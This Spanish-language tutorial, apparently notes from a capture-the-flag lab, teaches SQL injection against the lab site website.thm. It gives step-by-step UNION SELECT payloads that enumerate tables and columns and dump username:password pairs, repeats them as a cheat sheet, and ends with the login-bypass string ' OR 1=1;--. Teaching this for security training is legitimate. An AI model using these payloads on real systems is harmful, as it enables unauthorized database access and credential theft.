 # SQLinyection

SQL (lenguaje de consulta estructurado) es un lenguaje rico en funciones que se utiliza para consultar bases de datos; estas consultas SQL se conocen mejor como declaraciones.

El más simple de los comandos que cubriremos en esta tarea se usa para recuperar (seleccionar), actualizar, insertar y eliminar datos. Aunque algo similar, algunos servidores de bases de datos tienen su propia sintaxis y pequeños cambios en el funcionamiento de las cosas. Todos estos ejemplos se basan en una base de datos MySQL. Después de aprender las lecciones, podrá buscar fácilmente una sintaxis alternativa en línea para los diferentes servidores. Vale la pena señalar que la sintaxis SQL no distingue entre mayúsculas y minúsculas.

### In-Band SQL Injection
In-Band SQL Injection es el tipo más fácil de detectar y explotar; En banda simplemente se refiere al mismo método de comunicación que se usa para explotar la vulnerabilidad y también recibir los resultados, por ejemplo, descubrir una vulnerabilidad de inyección SQL en una página de sitio web y luego poder extraer datos de la base de datos a la misma página.

### Error-Based SQL Injection
Este tipo de inyección SQL es el más útil para obtener fácilmente información sobre la estructura de la base de datos, ya que los mensajes de error de la base de datos se imprimen directamente en la pantalla del navegador. Esto a menudo se puede usar para enumerar una base de datos completa. 

### Union-Based SQL Injection

Este tipo de inyección utiliza el operador SQL UNION junto con una declaración SELECT para devolver resultados adicionales a la página. Este método es la forma más común de extraer grandes cantidades de datos a través de una vulnerabilidad de inyección SQL.

La clave para descubrir la inyección SQL basada en errores es romper la consulta SQL del código probando ciertos caracteres hasta que se produzca un mensaje de error; estos son más comúnmente apóstrofes simples ( ' ) o una comilla ( " ).

### In-Band SQL Injection
![image](https://user-images.githubusercontent.com/69023634/152703694-18042e80-7f8b-4e96-9c37-38571cebddf0.png)

Como vemos e ha generado un error al agregar la comilla simple, ahora lo que debemos hacer es devolver los datos al navegador sin mostrar un mensaje de error. En primer lugar, probaremos el operador UNION para que podamos recibir un resultado adicional de nuestra elección.
```
1 UNION SELECT 1
```
![image](https://user-images.githubusercontent.com/69023634/152703792-f3b39a3b-3d60-418f-a98d-237178e9addb.png)

Esta declaración debería generar un mensaje de error informándole que la declaración UNION SELECT tiene un número diferente de columnas que la consulta SELECT original. Así que intentemos de nuevo pero agreguemos columnas hasta que el error desaparezca.
```
1 UNION SELECT 1,2,3
```
![image](https://user-images.githubusercontent.com/69023634/152703823-dbed6d98-3a16-4751-b16d-af0123cfd586.png)

Éxito, el mensaje de error desapareció y el artículo se muestra, pero ahora queremos mostrar nuestros datos en lugar del artículo. El artículo se muestra porque toma el primer resultado devuelto en alguna parte del código del sitio web y lo muestra. Para evitar eso, necesitamos que la primera consulta no produzca resultados. Esto se puede hacer simplemente cambiando la identificación del artículo de 1 a 0.
```
0 UNION SELECT 1,2,3
```
Ahora verá que el artículo está formado por el resultado de la selección UNION que devuelve los valores de columna 1, 2 y 3. Podemos comenzar a usar estos valores devueltos para recuperar información más útil. Primero, obtendremos el nombre de la base de datos a la que tenemos acceso:
```
0 UNION SELECT 1,2,database()
```
![image](https://user-images.githubusercontent.com/69023634/152703950-051de64b-406a-4fa0-8ee0-34c5a42338ee.png)

Ahora verá dónde se mostraba anteriormente el número 3 el nombre de la base de datos, que es  sqli_one .
Nuestra siguiente consulta reunirá una lista de tablas que se encuentran en esta base de datos.
```
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
![image](https://user-images.githubusercontent.com/69023634/152704186-34cc8d0a-1472-44e0-9379-f40686a4fb46.png)

Hay un par de cosas nuevas que aprender en esta consulta. En primer lugar, el método  group_concat()  obtiene la columna especificada (en nuestro caso, table_name) de varias filas devueltas y la coloca en una cadena separada por comas. Lo siguiente es la  base de datos information_schema  ; todos los usuarios de la base de datos tienen acceso a esto y contiene información sobre todas las bases de datos y tablas a las que el usuario tiene acceso. En esta consulta en particular, estamos interesados en listar todas las tablas en la  base de datos sqli_one  , que es article y staff_users. 

Como el primer nivel tiene como objetivo descubrir la contraseña de Martin, la tabla staff_users es lo que nos interesa. Podemos utilizar la base de datos information_schema nuevamente para encontrar la estructura de esta tabla usando la siguiente consulta.

```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
Esto es similar a la consulta SQL anterior. Sin embargo, la información que queremos recuperar ha cambiado de table_name a  column_name , la tabla que estamos consultando en la base de datos information_schema ha cambiado de tablas a  columnas , y estamos buscando cualquier fila donde la  columna table_name  tenga un valor de  staff_users .

Los resultados de la consulta proporcionan tres columnas para la tabla staff_users: id, contraseña y nombre de usuario. Podemos usar las columnas de nombre de usuario y contraseña para nuestra siguiente consulta para recuperar la información del usuario.
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
Nuevamente, usamos el método group_concat para devolver todas las filas en una sola cadena y para que sea más fácil de leer. También hemos agregado  ':'  para separar el nombre de usuario y la contraseña. En lugar de estar separados por una coma, hemos elegido la etiqueta HTML  <br>  que obliga a que cada resultado esté en una línea separada para facilitar la lectura.

![image](https://user-images.githubusercontent.com/69023634/152704719-235f3d45-bb49-4ace-8bb2-72d1651c8952.png)


### In-Band SQL Injection Commands
**Generar error**
```
https://website.thm/article?id=1'
```

**Evitando el error**
```
1 UNION SELECT 1,2,3
```

**Explotando el error**
```
0 UNION SELECT 1,2,database()
```

**Extrayendo tablas de DB**
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

**Extrayendo columns de DB**
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

**Extrayendo datos de Columns**
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

### Blind SQLi - Authentication Bypass
Blind SQLi
A diferencia de la inyección de SQL en banda, donde podemos ver los resultados de nuestro ataque directamente en la pantalla, SQLi ciego es cuando recibimos poca o ninguna respuesta para confirmar si nuestras consultas inyectadas fueron, de hecho, exitosas o no, esto se debe a que el los mensajes de error se han deshabilitado, pero la inyección aún funciona a pesar de todo. Puede que le sorprenda que todo lo que necesitamos es un poco de retroalimentación para enumerar con éxito una base de datos completa.

Authentication Bypass
Una de las técnicas de inyección ciega de SQL más sencillas es cuando se eluden los métodos de autenticación, como los formularios de inicio de sesión. En este caso, no estamos tan interesados en recuperar datos de la base de datos; Solo queremos pasar el inicio de sesión. 

Los formularios de inicio de sesión que están conectados a una base de datos de usuarios a menudo se desarrollan de tal manera que la aplicación web no está interesada en el contenido del nombre de usuario y la contraseña, sino más bien en si los dos forman un par coincidente en la tabla de usuarios. En términos básicos, la aplicación web le pregunta a la base de datos "¿tiene un usuario con el nombre de usuario  bob  y la contraseña  bob123 ?", y la base de datos responde con sí o no (verdadero/falso) y, dependiendo de esa respuesta, dicta si la aplicación web le permite continuar o no. 

Teniendo en cuenta la información anterior, no es necesario enumerar un par de nombre de usuario/contraseña válido. Solo necesitamos crear una consulta de base de datos que responda con un sí/verdadero.

Por ejemplo podemos imaginarla estrcutura de una sentencia sql que se ejecuta en el formulario es así;
```
select * from users where username='%username%' and password='%password%' LIMIT 1;

```
Podriamos omitir este inicio inidicando la siguiente sentencia.
```
' OR 1=1;--
```
Lo que convierte la consulta SQL en lo siguiente:
```
select * from users where username='' and password='' OR 1=1;
```
Debido a que 1=1 es una declaración verdadera y hemos usado un  operador OR  , esto siempre hará que la consulta regrese como verdadera, lo que satisface la lógica de las aplicaciones web de que la base de datos encontró una combinación válida de nombre de usuario/contraseña y que se debe permitir el acceso .

